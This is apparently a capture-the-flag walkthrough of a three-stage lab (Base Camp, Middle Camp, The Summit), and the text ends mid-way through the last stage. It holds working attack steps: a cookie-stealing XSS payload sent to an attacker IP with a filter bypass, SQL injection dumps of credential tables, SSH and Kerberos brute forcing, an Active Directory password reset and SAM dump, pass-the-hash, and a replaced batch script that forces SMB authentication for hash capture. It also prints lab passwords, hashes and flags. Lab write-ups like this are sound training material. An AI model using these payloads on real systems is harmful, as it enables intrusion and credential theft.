

# Base Camp


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |


# RECONNAISSANCE
---

First of all, we need to add `k2.thm` to `/etc/hosts`:


```bash
echo 'IP k2.thm' | sudo tee -a /etc/hosts
```

Now, let's check the web application:


We got a contact form in which I tried xss but it didn't work, let's try fuzzing then:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://k2.thm/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://k2.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

home                    [Status: 200, Size: 13229, Words: 811, Lines: 363, Duration: 1254ms]
```

Only got home, if we fuzz for vhosts, we can find this though:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.47.221 -H "Host: FUZZ.k2.thm" -mc 200,301,302 -fs 13229 -t 100 -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.47.221
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.k2.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,301,302
 :: Filter           : Response size: 13229
________________________________________________

admin                   [Status: 200, Size: 967, Words: 298, Lines: 24, Duration: 180ms]
it                      [Status: 200, Size: 1083, Words: 322, Lines: 25, Duration: 172ms]
```

We got two, let's add them both to `/etc/hosts` and proceed:

```
admin.k2.thm it.k2.thm
```


Both seem the same at first sight but if we check closer, on `it.k2.thm`, we can sign up, let's do it:


What's weird on here is the email ID, let's send a test request on a proxy to analyze the response:


Based on the request, we don't need some sort of numerical id, let's try a simple test email:


Ok, let's try to login now:


```
test1:test123 

testaccount@test.com
```


Weird, we can make system tickets, on here we need to enter a title and a description, let's send the request to a proxy again to check it up:


If we check the response, they say that the ticket was submitted and it will be reviewed shortly, this could lead to think there's XSS on here, `<>` and many other characters are not sanitized,

Let's begin exploitation.


# EXPLOITATION
---

Since we know the path could lead us to xss, but we will not be covering the usual XSS where you'd use a script like:

```js
<script>alert("XSS")</script>
```

That's due to the response, we know that the ticket is reviewed, most likely by the admin of the it system, which means that direct xss wouldn't work, so, we wouldn't be able to get an alert based on that.

But, here's where another form of XSS comes in handy, we'll be using `OOB XSS`, OOB xss or Out-Of-Band XSS is a technique where a hostile script doesn’t run visibly in the immediate HTTP response. Instead, it leverages a side channel, like a DNS query, an HTTP callback, or a WebSocket message, to quietly confirm execution or siphon off data.

Here's more information about OOB xss, if you're interested:

OOB XSS: https://www.iothreat.com/blog/out-of-band-xss


Let's try to steal the cookie of the admin user, for it, we can use this script:

```js
<script>
  new Image().src = "http://10.14.21.28:8000/exfil?cookie=" + encodeURIComponent(document.cookie);
</script>
```


If we send that payload, we get this:


Seems like there's a WAF stopping us from executing a simple xss payload, we need to change it a little bit, first of all, let's understand what triggers the alert, if we send:

```
<script>
```

This happens:


This one's not it, let's send `document.cookie` for example as it may have been filtered in order to avoid the cookie from being stolen:


Indeed, it is `document.cookie` that triggers the alarm, if we search how to bypass this we can find a few articles of HackerOne and some articles on xss waf bypassing.

Most interesting technique that could help us to structure `document.cookie` into:

```
document['cookie']
```

In JS, both execute in the same way, we can refer to the console to confirm this:


As seen, both works, let's restructure our payload then:

```js

```


Once we send the request, if we had our python server up, we can see this:


We got our admin cookie, meaning the cookie steal indeed works, let's try logging into admin with that cookie:

```
session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aFXKLw.QkBjR5Js1fzOY8GNkE6fv8SIvJI
```

We can use the cookie at `admin.k2.thm` due to the admin reviewing the tickets:


Now we got access to the `admin` dashboard, we can see the following:


On here, we can select the ticket title, let's check the request on a proxy:


We can see that it displays information about the ticket, such as user, title and description.

But the interesting part on here does not come from it, yeah, we got some usernames but nothing we could do with them by now, we could try brute forcing ssh but there's a better aproach.

When we use a `sqli` payload using `'`, this happens:


As seen, we get an internal server error, which is pretty weird actually but if we use a full payload:


We get an `attack detected` message and we get redirected back to the login page, this means there seems to be some sort of filter which does not allow certain words in order to stop SQLI attacks.

But the filter is poorly implemented, for example `SELECT` is not black listed:


```
UNION
```

Isn't filtered either:


Which means that `UNION-Based` SQLI may be possible, first of all, let's try to check the amount of columns:

```
1' UNION SELECT 1;#
1' UNION SELECT 1,2;#
1' UNION SELECT 1,2,3;#
1' UNION SELECT 1,2,3,4;#
1' UNION SELECT 1,2,3,4,5;#
1' UNION SELECT 1,2,3,4,5,6;#
1' UNION SELECT 1,2,3,4,5,6,7;#
```


The third one changes length and status code:


Column count is three, let's go with it, we can either research or ask an AI to give us payloads for it:

```
1' UNION SELECT 1, DATABASE(), 3;#
```


We found the database name:

```
ticketsite
```

Let's list all tables now:

```
1' UNION SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables WHERE table_schema=DATABASE();#
```


We found the tables, let's drop columns on admin_auth and auth_users:

```
1' UNION SELECT 1, GROUP_CONCAT(column_name), 3 FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='admin_auth';#
```


Ok, got our hit, let's dump the information:

```
`a' UNION SELECT 1,group_concat(admin_username,':',admin_password,':',email,':',id SEPARATOR '\n'),3 from ticketsite.admin_auth;#`
```


We get the following info:

```
james:Pwd@9tLNrC3!:james@k2.thm
rose:VrMAogdfxW!9:rose@k2.thm
bob:PasSW0Rd321:bob@k2.thm
steve:St3veRoxx32:steve@k2.thm
cait:PartyAlLDaY!32:cait@k2.thm
xu:L0v3MyDog!3!:xu@k2.thm
ash:PikAchu!IshoesU!:ash@k2.thm
```

We can now try to brute force ssh, let's save this in a file:

```
james:Pwd@9tLNrC3!
rose:VrMAogdfxW!9
bob:PasSW0Rd321
steve:St3veRoxx32
cait:PartyAlLDaY!32
xu:L0v3MyDog!3!
ash:PikAchu!IshoesU
```

Now we can use hydra:

```
hydra -C credentials.txt ssh://k2.thm

[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries, ~1 try per task
[DATA] attacking ssh://k2.thm:22/
[22][ssh] host: k2.thm   login: james   password: Pwd@9tLNrC3!
```

We found our right pair of credentials:

```
james:Pwd@9tLNrC3!
```


Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---


As always, let's use linpeas:


First of all, we are part of the `adm` group, ADM group stands for `admin log reader`. It’s a Linux group that gives user access to log files stored in /var/log , like auth.log for example.

Normally only root can view those files but if you belong to this group you can also read them without needing sudo.

So, let's try checking for credentials inside of `/var/log`:

```bash
grep -ri 'pass' . > output.txt
```

We can then submit the file to an AI, such as deepseek, and it will tell us this:


We find some credentials exposed on here, let's try to switch:

```
rose: RdzQ7MSKt)fNaz3!
```


Weird, they don't work for rose, if we try them on root, this happens:


Seems like that was the password for root, let's get both flags:

```
root@k2:~# cat /home/james/user.txt
THM{9e04a7419a2b7a86163496271a8a95dd}

root@k2:~# cat /root/root.txt
THM{c6f684e3b1089cd75f205f93de9fe93d}
```

But we are far from done yet, we still have some questions we need to answer:


Let's answer them:

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
rose:x:1001:1001:Rose Bud:/home/rose:/bin/bash
james:x:1002:1002:James Bold:/home/james:/bin/bash
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
```

The three users with access to the server are:

```
james
root
rose
```

We still need to find `rose`'s password, if we check bash_history, we can find it:

```
root@k2:~# cat /home/rose/.bash_history
sudo suvRMkaVgdfxhW!8
sudo su
```

Answer is:

```
james:Pwd@9tLNrC3!,rose:vRMkaVgdfxhW!8,root:RdzQ7MSKt)fNaz3!
```

We can also find the full names of the users on `/etc/passwd`:

```
James Bold, Rose Bud
```


First challenge was finished, let's begin with the second one.


# Middle Camp
----


# PORT SCAN
---

| PORT     | SERVICE       |
|----------|---------------|
| 53/tcp   | domain        |
| 88/tcp   | kerberos-sec  |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 389/tcp  | ldap          |
| 445/tcp  | microsoft-ds  |
| 464/tcp  | kpasswd5      |
| 593/tcp  | ncacn_http    |
| 636/tcp  | tcpwrapped    |
| 3268/tcp | ldap          |
| 3269/tcp | tcpwrapped    |
| 3389/tcp | ms-wbt-server |


# RECONNAISSANCE
---

If we check the hint for this part of the CTF, we get this:


We need the info from the previous machine, for example, most important stuff that would come out of this is that we got two users with credentials, based on the port scan, we are dealing with a windows AD environment, let's add the dc and domain first to `/etc/hosts`:

```bash
echo '10.10.38.176 k2.thm k2server.k2.thm K2server' | sudo tee -a /etc/hosts
```


Now, let's go back to our reconnaissance, we got two users:

```
James Bold
Rose Bud
```

We can maybe use kerbrute to check if any of those usernames exists on the environment, as the hint said we need all the information gathered to make our way to the top.

The issue is we cannot use kerbrute just yet, we need a way to generate usernames based on those two names, that's when a tool comes in handy:

TOOL: https://github.com/urbanadventurer/username-anarchy

We will use `username-anarchy`, what this tool basically does is generate usernames based on names, precisely this is what the description says:


```
Description

Tools for generating usernames when penetration testing. Usernames are half the password brute force problem.

This is useful for user account/password brute force guessing and username enumeration when usernames are based on the users' names. By attempting a few weak passwords across a large set of user accounts, user account lockout thresholds can be avoided.

Users' names can be identified through a variety of methods:

    Web scraping employee names from LinkedIn, Facebook, and other social networks.
    Extracting metadata from document types such as PDF, Word, Excel, etc. This can be performed with FOCA.

Common aliases, or self chosen usernames, from forums are also included.
```

Let's get the tool and use it, make sure to save the names on a file:

```
./username-anarchy -i names.txt > usernames.txt
```

Now we're good to use kerbrute to check:

```bash
kerbrute userenum --dc K2server -d k2.thm usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 06/21/25 - Ronnie Flathers @ropnop

2025/06/21 05:19:31 >  Using KDC(s):
2025/06/21 05:19:31 >  	K2server:88

2025/06/21 05:19:32 >  [+] VALID USERNAME:	 j.bold@k2.thm
2025/06/21 05:19:32 >  [+] VALID USERNAME:	 r.bud@k2.thm
2025/06/21 05:19:32 >  Done! Tested 28 usernames (2 valid) in 0.516 seconds
```

Ok, got two valid usernames, as we may figure out, from the previous machine we had credentials for both users, those credentials may have been reused on here, let's create a simple bash script to automate the process of checking using crackmapexec:

```bash
#!/usr/bin/env bash

# ensure NetExec (alias for CME) is installed
if ! command -v crackmapexec &> /dev/null; then
    echo "crackmapexec (aka NetExec) not found. Install it first."
    exit 1
fi

# Match exactly what worked interactively:
TARGET="K2server"

echo "=== Testing j.bold ==="
echo "- SMB:"
crackmapexec smb  "$TARGET" -u 'j.bold' -p 'Pwd@9tLNrC3!' \
    || echo "  [!] SMB failed for j.bold"
echo "- WinRM:"
crackmapexec winrm "$TARGET" -u 'j.bold' -p 'Pwd@9tLNrC3!' \
    || echo "  [!] WinRM failed for j.bold"

echo
echo "=== Testing r.bud ==="
echo "- SMB:"
crackmapexec smb  "$TARGET" -u 'r.bud' -p 'vRMkaVgdfxhW!8' \
    || echo "  [!] SMB failed for r.bud"
echo "- WinRM:"
crackmapexec winrm "$TARGET" -u 'r.bud' -p 'vRMkaVgdfxhW!8' \
    || echo "  [!] WinRM failed for r.bud"
```

We get this output:


Last credentials work for `winrm`, we can go into that:

```
evil-winrm -i K2Server -u 'r.bud' -p 'c'
```


Ok, we got access to winrm, before we dive into exploitation, we should use bloodhound to take a look at the data:

```python
bloodhound-python -d k2.thm -u 'r.bud' -p 'vRMkaVgdfxhW!8' -ns 10.10.38.176 -c All --zip
```


As always, if you already ingested data, you can clean up all data on `neo4j` using:

```cypher
MATCH (n)
DETACH DELETE n
```


We got some users, let's check `j.bold` for example:


`j.bold` is a member of `IT STAFF 1` which got `GenericAll` over `J.Smith` as i've done on previous CTFs of AD, we can exploit this to force the password change of the user, let's check what `j.smith` can do:


He's a member of `Backup Operators` which mean we can make a copy of the SAM and SYSTEM to retrieve the administrator's NTLM hash using secretsdump, we already got a path, we only need to know how to get to `j.bold`, let's begin exploitation now. 


# EXPLOITATION
---

First of all, we can find this inside of documents:

```
*Evil-WinRM* PS C:\Users\r.bud\Documents> dir


    Directory: C:\Users\r.bud\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/29/2024   7:07 PM            327 notes.txt
-a----        1/29/2024   7:09 PM            349 note_to_james.txt
```

We got two notes, let's read them:

```powershell
*Evil-WinRM* PS C:\Users\r.bud\Documents> type notes.txt
Done:
1. Note was sent and James has already performed the required action. They have informed me that they kept the base password the same, they just added two more characters to meet the criteria. It is easier for James to remember it that way.

2. James's password meets the criteria.

Pending:
1. Give James Remote Access

*Evil-WinRM* PS C:\Users\r.bud\Documents> type note_to_james.txt
Hello James:

Your password "rockyou" was found to only contain alphabetical characters. I have removed your Remote Access for now.

At the very least adhere to the new password policy:
1. Length of password must be in between 6-12 characters
2. Must include at least 1 special character
3. Must include at least 1 number between the range of 0-999
```

Nice, seems like we can perform some sort of brute force based on the password policy and the hint that points out that `rockyou` is included on the password too.

In order to create the password wordlist, we can use python to match the rules, let's use the following script:

```python
import string

# Define the base word and character sets
base_word = "rockyou"
digits = string.digits  # 0-9
special = string.punctuation  # !@#$%^&*()-_=+[{]};:'",<.>/?

# Initialize a set to store unique passwords
wordlist = set()

# Generate substitution-based passwords
# Replace one character with a digit and another with a special character
for k in range(len(base_word)):
    for m in range(len(base_word)):
        if m != k:  # Ensure positions are distinct
            for d in digits:
                for s in special:
                    password = list(base_word)
                    password[k] = d
                    password[m] = s
                    pwd_str = ''.join(password)
                    if 6 <= len(pwd_str) <= 12:  # Length check (though always 7 here)
                        wordlist.add(pwd_str)

# Generate appending-based passwords
# Append one digit and one special character in both orders
for d in digits:
    for s in special:
        pwd1 = base_word + d + s  # e.g., rockyou1!
        pwd2 = base_word + s + d  # e.g., rockyou!1
        if 6 <= len(pwd1) <= 12:
            wordlist.add(pwd1)
        if 6 <= len(pwd2) <= 12:
            wordlist.add(pwd2)

# Generate prepending-based passwords
# Prepend one digit and one special character in both orders
for d in digits:
    for s in special:
        pwd1 = d + s + base_word  # e.g., 1!rockyou
        pwd2 = s + d + base_word  # e.g., !1rockyou
        if 6 <= len(pwd1) <= 12:
            wordlist.add(pwd1)
        if 6 <= len(pwd2) <= 12:
            wordlist.add(pwd2)

# Write the wordlist to a file
with open("wordlist.txt", "w") as f:
    for password in sorted(wordlist):  # Sort for consistency
        f.write(password + "\n")

print(f"Generated {len(wordlist)} unique passwords in 'wordlist.txt'")
```

Let's use it:

```python
python3 passwords.py
Generated 14720 unique passwords in 'wordlist.txt'
```

Once generated, we can use `kerbrute` again to bruteforce:

```bash
kerbrute bruteuser --dc k2server.k2.thm -d k2.thm wordlist.txt j.bold

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 06/21/25 - Ronnie Flathers @ropnop

2025/06/21 05:53:09 >  Using KDC(s):
2025/06/21 05:53:09 >  	k2server.k2.thm:88

2025/06/21 05:53:18 >  [+] VALID LOGIN:	 j.bold@k2.thm:#8rockyou
2025/06/21 05:53:19 >  Done! Tested 178 logins (1 successes) in 9.931 seconds
```

We got our match unfortunately, we cannot go to `evil-winrm` with those credentials, let's remember our attack path:





Next step is abusing the GenericAll to take ownership of `j.smith`, we can change the password using `net rpc` or `bloodyAD`, let's use `bloodyAD` now:

```python
bloodyAD --host "MACHINE_IP" -d "k2.thm" -u "j.bold" -p "#8rockyou" set password "j.smith" 'P@ssw0rd123!'
```


Here's an article about `GenericAll` exploitation if you didn't understand what was done here:

GenericAll: https://www.hackingarticles.in/genericall-active-directory-abuse/

Nice, we were able to reset the password, let's try to go into `evil-winrm` now:

```
evil-winrm -i K2Server -u 'j.smith' -p 'P@ssw0rd123!'
```


Time to begin privilege escalation to finish this room.


# PRIVILEGE ESCALATION
---


We already know what we need to do, let's check the `SeBackupPrivilege`:

```
*Evil-WinRM* PS C:\Users\j.smith\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

It is there, we can exploit this by getting the SAM and SYSTEM, here's an article about it if you're new to AD:

Backup Operators PRIVESC: https://www.bordergate.co.uk/backup-operator-privilege-escalation/

So, let's get them:

```powershell
*Evil-WinRM* PS C:\Users\j.smith\Documents> reg save HKLM\SAM sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\j.smith\Documents> reg save HKLM\SYSTEM system
The operation completed successfully.


*Evil-WinRM* PS C:\Users\j.smith\Documents> dir


    Directory: C:\Users\j.smith\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2025   6:25 AM          53248 sam
-a----        6/21/2025   6:25 AM       17244160 system


*Evil-WinRM* PS C:\Users\j.smith\Documents> download sam

Info: Downloading C:\Users\j.smith\Documents\sam to sam

Info: Download successful!
*Evil-WinRM* PS C:\Users\j.smith\Documents> download system

Info: Downloading C:\Users\j.smith\Documents\system to system

Info: Download successful!
```


Nice, now that we have both files we simply need to use `secretsdump`:

```python
secretsdump.py -system system -sam sam LOCAL

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9545b61858c043477c350ae86c37b32f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

We got our hash and can now go into the admin shell:

```
evil-winrm -i K2Server -u 'Administrator' -H '9545b61858c043477c350ae86c37b32f'
```


Nice, let's get both flags:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\j.smith\Desktop\user.txt
THM{3e5a19a9ba91881f4d7852d92126a97f}

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
THM{a7e9c8149fec53865eff983143b1f5ba}
```

We can now answer all questions:

What is the user flag?  

```
THM{3e5a19a9ba91881f4d7852d92126a97f}
```

What are the usernames found on the server? List the usernames in alphabetical order separated by a comma. Exclude the Administrator user.  

```
j.bold,j.smith,r.bud
```


What is the root flag?

```
THM{a7e9c8149fec53865eff983143b1f5ba}
```


What is the Administrator's NTLM hash?

```
9545b61858c043477c350ae86c37b32f
```


# The Summit
---


# PORT SCAN
---

| PORT      | SERVICE       |
|-----------|---------------|
| 53/tcp    | domain        |
| 88/tcp    | kerberos-sec  |
| 135/tcp   | msrpc         |
| 139/tcp   | netbios-ssn   |
| 389/tcp   | ldap          |
| 445/tcp   | microsoft-ds  |
| 464/tcp   | kpasswd5      |
| 593/tcp   | ncacn_http    |
| 636/tcp   | tcpwrapped    |
| 3268/tcp  | ldap          |
| 3269/tcp  | tcpwrapped    |
| 3389/tcp  | ms-wbt-server |
| 5985/tcp  | http          |
| 9389/tcp  | mc-nmf        |
| 49668/tcp | msrpc         |
| 49672/tcp | ncacn_http    |
| 49673/tcp | msrpc         |
| 49675/tcp | msrpc         |
| 49708/tcp | msrpc         |
| 49792/tcp | msrpc         |


# RECONNAISSANCE
---

Time for the last part of the challenge, as before:


First of all, let's add dc and domain to `/etc/hosts`:

```bash
echo '10.10.103.26 K2rootdc k2RootDC.k2.thm k2.thm' | sudo tee -a /etc/hosts
```

So, based on the info we gathered, we got three usernames:

```
j.bold
r.bud
j.smith
```

We can test these again using the same kerbrute technique as before:

```bash
kerbrute userenum --dc K2rootdc -d k2.thm usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 06/21/25 - Ronnie Flathers @ropnop

2025/06/21 06:45:12 >  Using KDC(s):
2025/06/21 06:45:12 >  	K2rootdc:88

2025/06/21 06:45:12 >  [+] VALID USERNAME:	 j.smith@k2.thm
2025/06/21 06:45:12 >  Done! Tested 3 usernames (1 valid) in 0.173 seconds
```

`j.smith` exists on here, we don't have his password though, what can we use then.

Remember the hint said to use any information we gathered, what did we also gathered on here?

That's right, the administrator hash, it could work with the user, let's test it:

```bash
crackmapexec winrm K2rootdc -u 'j.smith' -H '9545b61858c043477c350ae86c37b32f'
CrackMapExec is deprecated and has been replaced by NetExec.
This binary is just an alias for netexec command.
WINRM       10.10.103.26    5985   K2ROOTDC         [*] Windows 10 / Server 2019 Build 17763 (name:K2ROOTDC) (domain:k2.thm)
WINRM       10.10.103.26    5985   K2ROOTDC         [+] k2.thm\j.smith:9545b61858c043477c350ae86c37b32f (Pwn3d!)
```

There we go, it works, let's go into `evil-winrm`:

```
evil-winrm -i K2rootdc -u 'j.smith' -H '9545b61858c043477c350ae86c37b32f'
```


We don't have credentials so we cannot use `bloodhound`, let's proceed to exploitation.


# EXPLOITATION
---

If we check the contents of `C:\`, we can find this:

```powershell
*Evil-WinRM* PS C:\Users\j.smith\Documents> dir C:\


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/14/2018   6:56 AM                EFI
d-----        5/13/2020   5:58 PM                PerfLogs
d-r---       11/14/2018   4:10 PM                Program Files
d-----        3/11/2021   7:29 AM                Program Files (x86)
d-----        5/30/2023   1:32 AM                Scripts
d-r---        5/30/2023   2:29 AM                Users
d-----        5/30/2023   1:17 AM                Windows
```

There's a script folder on here, let's check it out:

```powershell
*Evil-WinRM* PS C:\Users\j.smith\Documents> dir C:\Scripts


    Directory: C:\Scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/30/2023   1:32 AM             92 backup.bat
```

Interesting, a backup is on here, let's download it:

```
*Evil-WinRM* PS C:\Scripts> download backup.bat

Info: Downloading C:\Scripts\backup.bat to backup.bat

Info: Download successful!
```

If we check the contents, we can see this:

```
cat backup.bat
copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt
```

Maybe we can modify the backup in some sort of way, as it is a backup it may be running as a scheduled job on the system, let's check our privileges over the file and scripts directory:

```powershell
*Evil-WinRM* PS C:\Scripts> icacls backup.bat
backup.bat NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           K2\o.armstrong:(I)(F)

Successfully processed 1 files; Failed processing 0 files

*Evil-WinRM* PS C:\Scripts> icacls C:\Scripts
C:\Scripts K2\j.smith:(F)
           K2\o.armstrong:(F)
           NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
           BUILTIN\Administrators:(I)(OI)(CI)(F)
           BUILTIN\Users:(I)(OI)(CI)(RX)
           BUILTIN\Users:(I)(CI)(AD)
           BUILTIN\Users:(I)(CI)(WD)
           CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

We can't modify the backup but we got full control of the scripts directory, which means we can delete the current backup and replace it with something else.

Here's when comes the trick, we know the backup will run again we can modify it so it authenticates to us through SMB, when it does that, we can capture the credentials of the user using responder:

```powershell
*Evil-WinRM* PS C:\Scripts> del backup.bat
*Evil-WinRM* PS C:\Scripts> Set-Content -Path "C:\Scripts\backup.bat" -Value "net use \\10.14.21.28\share"
*Evil-WinRM* PS C:\Scripts> type backup.bat
net use \\10.14.21.28\share
```

Now, we need to set up responder:

```
sudo responder -I tun0
```

We will receive the hash in seconds:

```
[SMB] NTLMv2-SSP Client   : 10.10.103.26
[SMB] NTLMv2-SSP Username : K2\o.armstrong
